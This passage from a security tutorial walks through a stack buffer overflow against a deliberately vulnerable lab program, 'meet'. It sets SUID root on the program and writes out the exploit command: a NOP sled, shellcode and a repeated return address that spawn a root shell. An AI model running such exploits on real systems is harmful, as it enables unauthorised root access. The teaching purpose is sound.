 By issuing the command:

```{code-block} bash
sudo chmod u+s meet
```

we give the executable _meet_ the privileges to execute at the root level.

:::{warning}
**DO NOT LEAVE A VULNERABLE EXECUTABLE WITH SUID ROOT PRIVILEGES ON YOUR SYSTEM AFTER YOU ARE DONE!  REMOVE THE SUID PRIVILEGES OR DELETE THE EXECUTABLE.**
:::

We then inject our attack payload into the second parameter, because as discussed previously, the first parameter is not vulnerable to this attack. The attack and results are shown below:

```{figure} images/cmd_line_sc_injection_root_shell.jpg
:name: cmd_line_sc_injection_root_shell.jpg
:alt: cmd_line_sc_injection_root_shell.jpg
:align: center
:height: 600px
:width: 1200px

Injecting payload into the vulnerable parameter of the executable _meet_ to obtain a root shell
```

**SUCCESS!** We have obtained a root shell. We will now dissect the attack string in detail.
  
By issuing the command:

```{code-block} bash
sudo ./meet mr "$(perl -e 'print "\\x90"x200'; cat sc; perl -e 'print "\\x90"x27' ;perl -e 'print "\\x18\\xf2\\xff\\xbf"x38')"
```

we were able to overflow a buffer within the executable _meet_, and overwrite the return address. By doing so, we hijacked the instruction pointer EIP to execute our arbitrary code. In this case, our arbitrary code was shellcode, which provides a command shell. Since the executable _meet_ ran at the root privilege level, once the shell is spawned, any command entered runs at the root privilege level.

We will now break down the attack string in great detail.

* * *

## Breaking Down the Attack String in Detail

### Use of the "$(_cmd_; _cmd_; _cmd_; _cmd_)" format

The attack string used the format:

```{code-block} bash
"$(_cmd_; _cmd_; _cmd_; _cmd_)"
```

The shell command format \$\(\) replaces the unweildy backtick " \` " format, making an entered command much easier to read and understand. Individual commands within the parentheses can be separated by a semicolon. The quotation marks on the outside, i.e. "$()" tell the command shell to treat everything within the quotes as a literal string. See below for examples:
